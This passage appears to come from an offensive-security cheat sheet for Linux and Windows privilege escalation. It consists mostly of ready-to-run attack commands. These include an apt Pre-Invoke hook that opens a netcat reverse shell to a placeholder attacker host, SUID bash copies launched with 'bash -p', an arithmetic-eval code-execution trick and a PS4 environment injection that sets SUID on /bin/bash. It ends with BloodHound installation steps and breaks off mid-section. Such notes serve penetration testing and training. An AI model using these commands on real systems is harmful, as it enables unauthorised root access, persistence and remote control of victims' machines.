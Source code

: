 ```c
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

### APT

```c
$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"};' > /etc/apt/apt.conf.d/<FILE>
```

### Bash

#### SUID Privilege Escalation

```c
$ cp /bin/bash .
$ chmod +s bash
$ bash -p
```

#### White Collar eval Arbitrary Code Execution

> https://www.vidarholen.net/contents/blog/?p=716

**Example**

```c
#!/bin/bash
chmod +s /bin/bash
```

```c
'a[$(/tmp/<FILE>.sh>&2)]+42' /tmp/<FILE>.sh
```

### Bash Debugging Mode

* Bash <4.4

```c
$ env -i SHELLOPTS=xtrace PS4='$(chmod +s /bin/bash)' /usr/local/bin/<BINARY>
```

### BloodHound

> https://github.com/BloodHoundAD/BloodHound

#### Installation

```c
$ pip install bloodhound
$ sudo apt-get install neo4j
$ sudo apt-get install bloodhound
```

#### Installing and starting Database
